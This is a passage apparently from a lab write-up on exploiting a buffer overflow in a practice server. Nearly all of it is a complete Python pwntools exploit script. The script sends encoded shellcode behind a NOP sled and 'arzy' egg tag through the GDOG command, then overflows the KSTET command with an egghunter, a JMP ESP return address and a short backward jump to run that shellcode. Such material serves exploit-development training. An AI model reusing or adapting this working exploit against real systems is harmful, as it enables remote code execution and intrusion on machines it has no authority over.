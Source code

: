 ![](https://cdn-images-1.medium.com/max/800/1*bhjS9RKmb-ULiuKOVG-9ig.png){: .align-center}

It successfully landed on our debugger. Let’s remove this debugger for our final payload script.

```
from pwn import *

host = '192.168.136.241'  
port = 9999

r = remote(host, port)

shellcode =  b""  
shellcode += b"\xbb\x0d\xb7\xd7\xc5\xdb\xd9\xd9\x74\x24\xf4"  
shellcode += b"\x58\x33\xc9\xb1\x52\x83\xe8\xfc\x31\x58\x0e"  
shellcode += b"\x03\x55\xb9\x35\x30\x99\x2d\x3b\xbb\x61\xae"  
shellcode += b"\x5c\x35\x84\x9f\x5c\x21\xcd\xb0\x6c\x21\x83"  
shellcode += b"\x3c\x06\x67\x37\xb6\x6a\xa0\x38\x7f\xc0\x96"  
shellcode += b"\x77\x80\x79\xea\x16\x02\x80\x3f\xf8\x3b\x4b"  
shellcode += b"\x32\xf9\x7c\xb6\xbf\xab\xd5\xbc\x12\x5b\x51"  
shellcode += b"\x88\xae\xd0\x29\x1c\xb7\x05\xf9\x1f\x96\x98"  
shellcode += b"\x71\x46\x38\x1b\x55\xf2\x71\x03\xba\x3f\xcb"  
shellcode += b"\xb8\x08\xcb\xca\x68\x41\x34\x60\x55\x6d\xc7"  
shellcode += b"\x78\x92\x4a\x38\x0f\xea\xa8\xc5\x08\x29\xd2"  
shellcode += b"\x11\x9c\xa9\x74\xd1\x06\x15\x84\x36\xd0\xde"  
shellcode += b"\x8a\xf3\x96\xb8\x8e\x02\x7a\xb3\xab\x8f\x7d"  
shellcode += b"\x13\x3a\xcb\x59\xb7\x66\x8f\xc0\xee\xc2\x7e"  
shellcode += b"\xfc\xf0\xac\xdf\x58\x7b\x40\x0b\xd1\x26\x0d"  
shellcode += b"\xf8\xd8\xd8\xcd\x96\x6b\xab\xff\x39\xc0\x23"  
shellcode += b"\x4c\xb1\xce\xb4\xb3\xe8\xb7\x2a\x4a\x13\xc8"  
shellcode += b"\x63\x89\x47\x98\x1b\x38\xe8\x73\xdb\xc5\x3d"  
shellcode += b"\xd3\x8b\x69\xee\x94\x7b\xca\x5e\x7d\x91\xc5"  
shellcode += b"\x81\x9d\x9a\x0f\xaa\x34\x61\xd8\x15\x60\xe1"  
shellcode += b"\xee\xfe\x73\xf1\x1f\xa3\xfa\x17\x75\x4b\xab"  
shellcode += b"\x80\xe2\xf2\xf6\x5a\x92\xfb\x2c\x27\x94\x70"  
shellcode += b"\xc3\xd8\x5b\x71\xae\xca\x0c\x71\xe5\xb0\x9b"  
shellcode += b"\x8e\xd3\xdc\x40\x1c\xb8\x1c\x0e\x3d\x17\x4b"  
shellcode += b"\x47\xf3\x6e\x19\x75\xaa\xd8\x3f\x84\x2a\x22"  
shellcode += b"\xfb\x53\x8f\xad\x02\x11\xab\x89\x14\xef\x34"  
shellcode += b"\x96\x40\xbf\x62\x40\x3e\x79\xdd\x22\xe8\xd3"  
shellcode += b"\xb2\xec\x7c\xa5\xf8\x2e\xfa\xaa\xd4\xd8\xe2"  
shellcode += b"\x1b\x81\x9c\x1d\x93\x45\x29\x66\xc9\xf5\xd6"  
shellcode += b"\xbd\x49\x05\x9d\x9f\xf8\x8e\x78\x4a\xb9\xd2"  
shellcode += b"\x7a\xa1\xfe\xea\xf8\x43\x7f\x09\xe0\x26\x7a"  
shellcode += b"\x55\xa6\xdb\xf6\xc6\x43\xdb\xa5\xe7\x41"

payload = ""  
payload += "GDOG "  
payload += "arzy"*2  
payload += "\x90"*100  
payload += shellcode  
r.sendline(payload)  
r.recvline()

egghunter = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"  
egghunter += "\xef\xb8\x61\x72\x7a\x79\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

payload = ""  
payload += "KSTET "  
payload += "A"*(70 - 50 + 2 + 4) # -50 for egghunter buffer, +4 for JMP ESP alignment  
payload += egghunter  
payload += "B"*(48 - 32 - 4) # 48 (buffer for egghunter - egghunter length - 4 bytes for JMP ESP)  
payload += p32(0x625011af) # JMP ESP  
payload += "\xeb\xce\x90\x90" # JMP -50
```